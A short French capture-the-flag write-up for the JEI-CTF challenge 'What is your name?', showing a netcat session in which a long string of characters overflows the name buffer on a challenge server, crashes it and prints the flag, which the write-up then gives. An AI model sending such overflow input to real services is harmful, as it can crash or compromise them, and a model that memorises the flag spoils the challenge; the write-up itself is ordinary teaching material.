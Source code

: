 # JEI-CTF – What is your name ?

* **Catégorie :** Misc
* **Points :** 200

## Challenge

> What is your name <br>
> nc 31.207.34.225 40112

## Solution
Ce challenge a rapport à avec le buffer overflow. En effet, on nous demandait notre nom. Pour réussir ce challenge, il faut écrire un string dépassant la mémoire réservée à la variable qui reçoit le nom.

```console
Sancelisso@kali:~/JEI-CTF$ nc 31.207.34.225 40112
toto

 Entrez votre prenom: salut toto
Vous avez entré 1152055088
Sancelisso@kali:~/JEI-CTF$ nc 31.207.34.225 40112
zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz

 Entrez votre prenom: salut zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz
 Erreur de segmentation : Jei_CTF{ 8uff3r0v3rffl0ww }
 Sancelisso@kali:~/JEI-CTF$

```

```
Jei_CTF{ 8uff3r0v3rffl0ww }
```
